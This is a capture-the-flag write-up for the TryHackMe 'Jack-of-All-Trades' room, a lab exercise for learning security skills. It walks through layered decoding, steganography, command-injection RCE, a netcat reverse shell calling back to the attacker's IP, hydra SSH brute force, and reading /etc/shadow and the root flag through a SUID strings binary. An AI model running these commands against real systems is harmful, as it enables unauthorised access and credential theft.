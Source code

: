 # Jack-of-All-Trades CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Jack-of-All-Trades** CTF challenge on [TryHackMe](https://tryhackme.com/room/jackofalltrades). 
---

after scanning we know about open ports: 22, 80

![scn](imgs/scn.png "scn")

we have web server on port 22 and ssh on port 80 nice

![page](imgs/page.png "page")

we can find a note in base64:

```
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: REDACTED
```

![recs](imgs/recs.png "recs")

on `recovery.php` we see another note this time we need to use base32 -> Hex -> ROT13 and we got:

```
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

`bit.ly` link directs to wikipedia page about `Stegosauria`

i downloaded the stego.jpg and used the password from the first note, there is creds.txt hidden but it is fake file

there are also 2 other images: header and jackinthebox

the real creds are in the header file 

now we can head to recovery.php and log with credentials

![rec](imgs/rec.png "rec")

we see `GET me a 'cmd'` so i assumed we will have some RCE

![cmd](imgs/cmd.png "cmd")

we can test it using `http://10.10.207.181:22/nnxhweOV/index.php?cmd=id` 

![id](imgs/id.png "id")

and it works, we can now upload rev shell i used this one

```
busybox nc 10.14.91.59 4445 -e /bin/bash
```


now we have shell access as `www-data`

![rs](imgs/rs.png "rs")

in the /home folder we see a nice file called jacks_password_list and a user jack

![pass](imgs/pass.png "pass")

having the password list we can try to brute force the login, we need to remember that ssh is on port 80 

```
hydra -l jack -P pass ssh://10.10.207.181:80 
```

![hydra](imgs/hydra.png "hydra")

we are now jack, we found user.jpg instead of .txt ...

![user](imgs/user.png "user")

we need to download the image using scp

```
scp -P 80 jack@10.10.207.181:/home/jack/user.jpg .
```

opening the file, we see user flag

![flag](imgs/flag.png "flag")

we also found SUID for strings

![strings](imgs/strings.png "strings")

GTFObins:

![gtfo](imgs/gtfo.png "gtfo")

we can take a look at /etc/shadow

![shadow](imgs/shadow.png "shadow")

to grab the flag we can simply use `/usr/bin/strings /root/root.txt`

![root](imgs/root.png "root")

# FLAGS OBTAINED
